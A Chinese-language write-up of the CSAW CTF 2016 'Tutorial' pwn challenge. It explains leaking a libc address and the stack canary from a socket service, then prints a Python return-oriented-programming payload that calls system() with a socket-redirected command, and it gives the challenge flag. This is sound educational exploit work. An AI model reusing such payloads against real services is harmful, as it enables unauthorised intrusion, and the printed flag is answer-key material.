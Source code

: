 # CSAW CTF 2016 Quals: Tutorial

分類：Pwn 分數：200

說明：Ok sport, now that you have had your Warmup, maybe you want to checkout the Tutorial.

- [tutorial](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/tutorial)
- [libc-2.19.so](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/libc-2.19.so)

## Binary

下載 binary 後例行動作：

```
$ checksec tutorial
[*] '/workspace/csawctf/tutorial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

這個 binary 用了 *stack canary* 和 *NX bit*，要進行 stack buffer overflow 要先找到 canary value，而且也不能直接執行 stack 上的 shellcode。

先嘗試執行 binary，即時得到個 segfault：

```
(gdb) run
Starting program: /workspace/csawctf/tutorial

Program received signal SIGSEGV, Segmentation fault.
__GI_____strtol_l_internal (nptr=0x0, endptr=endptr@entry=0x0,
    base=base@entry=10, group=group@entry=0,
    loc=0x7ffff7bd0060 <_nl_global_locale>) at ../stdlib/strtol_l.c:298
298	../stdlib/strtol_l.c: No such file or directory.
```

用 Hopper Disassembler disassemble 這個 binary，發現這個程式用 argv[1] 作為 listening socket 的 port。

```
(gdb) run 9999
Starting program: /workspace/csawctf/tutorial 9999
User tutorial does not exist
accept: Bad file descriptor
```

執行 `./tutorial 9999` 沒有 segfault，不過嘗試 `nc localhost 9999` 時會得到另一個 error，原來這個程式還要以 *tutorial* 用戶運行。在系統加入一個用戶應該也可以的，不過我選擇用 Hopper 直接把這個檢查改為 NOP，順手看見附近有一個 timeout alarm 也 NOP 掉以免阻礙 debug。這樣總算可以成功執行這個 binary：

```
$ nc localhost 9999
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffff7880860
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AAAAA
AAAAA
@????x"???*e????-Tutorial-
1.Manual
2.Practice
3.Quit
>
```

選擇 Manual 會得到一個 memory address，disassemble `func1` 看到這個 address 其實是 `dlsym(0xffffffffffffffff, "puts")-0x500`，這是一個 libc function 的 address，有了這個就可以用 return-to-libc 方法去繞過 *NX bit* 的限制。

再看看 Practice 選項（`func2`）。

![func2](func2.png)

`func2` 有三個 stack variables：8 bytes stack canary，312 bytes buffer 和 4 byte 的 socket file descriptor。這個 function 從 socket 讀取 460 bytes 寫進 buffer，然後再由 buffer 讀 324 bytes 寫到 socket。由於 buffer 只有 312 bytes，利用這個 function 就可以覆寫 stack frame 的 return address 取得 control flow，因為它還會把 buffer 之後的 12 bytes 寫出來，我們還可以得到 stack canary 的值和上一個 stack frame 的 `$rbp` 的最低 32 bits。

## 解題

到這裡要怎樣解題就很清楚，先要用 Manual 選項取得 libc address，從 Practice 選項讀取 stack canary 和 stack base address，再一次用 Practice 選項覆寫 stack frame 的 return address 取得 control flow，再引導去 libc 的 `system()` 取 shell。不過還有一個麻煩的地方，就是這個 binary 用 socket 進行 IO，我們要把 shell 的 stdin/stdout redirect 到 socket 的 file descriptor 才可以看到 output。

```
$ strace -f ./tutorial 9999
...
[pid  5304] write(4, "-Tutorial-\n", 11) = 11
...
```

從 `strace` 看到 socket 的 file descriptor 總是 `4`。最先想到的辦法就是把 `sh >&4 <&4` 寫到 buffer 上作為 `system()` 的 argument。因為 Manual 選項 leak 了 `$rbp` 的最低 32 bits，可以憑這個估算 buffer 的 address，只要在 libc 裡找個 `pop rdi` 的 ROP gadget 把 buffer address 寫進 `$rdi`（System V calling convention 的第一個 function parameter），再把 `$rip` 指到 `system()` 就可以了。可是執行起上來時發現不知道為什麼只有 buffer 的前 7 個 character 可用，連 `cat *>&4` 也不夠。隊友提議用 `hd *>&4`，但 host 好像沒有這個 command，之後在[two letter linux command](http://www.hioreanu.net/cs/two-letter-commands.html) 裡發現 `od` 可用。結果得到 flag 的八進制內容：

```
0000000 046106 043501 031573 051501 057531 030122 057520 030122
0000020 057520 030120 057520 030120 057520 052531 057515 052531
0000040 057515 044103 046525 041537 052510 076515 000012
...
```

這是 payload：

```python
payload = "od *>&4\0"
payload += 'A' * (312-len(payload))
payload += canary
payload += 'D' * 8
payload += p64(proc_open_addr + 0x1e7) # pop rdi; ret
payload += p32(buf_addr)
payload += p32(stack_base)
payload += p64(proc_open_addr + system_offset)
```

完整解答：[tutorial.py](tutorial.py)

這個方法其實不夠簡潔，更直接的做法是先用 `dup2()` 把 `fd 4` 複製到 stdin/stdout，再行 `system("/bin/sh")`，這樣就可以取得完整的 shell，不過既然取到 flag 那就算了。

## Flag

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/Tutorial-200/README.md
